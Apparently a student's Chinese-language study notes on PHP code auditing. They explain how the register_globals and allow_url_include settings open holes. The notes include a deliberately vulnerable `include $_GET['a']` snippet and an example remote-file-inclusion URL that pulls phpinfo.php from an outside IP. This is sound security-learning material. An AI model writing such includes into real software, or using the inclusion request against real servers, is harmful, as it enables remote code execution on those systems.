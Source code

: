 ## 大三11月php审计

### php核心配置参数

1.register_globals

> 在测试过程中，如果我们在参数开启时会造成各种方式传参的混乱

```php
<?php
//register_globals 全局变量注册 5.45已抛弃

//测试 开启,在变量使用时，我们默认是必须要在代码中赋值或者以特定方式传参。
//但是我们用POST或者GET都能进行参数的直接传递
if (isset($user)) {
    if ($user === 'admin')
    {   //当直接传入的参数被解析：
        echo 'True!';
    }
}
?>
```

2.allow_url_include

在打开状态下，可以直接提交远程文件包含

http://127.0.0.1/Review/config.php?a=http://114.132.124.214:89/phpinfo.php

```php+HTML
//2.allow_url_include = On
    //在5.2之后默认关闭，打开后可直接包含远程文件
    include $_GET['a'];
```

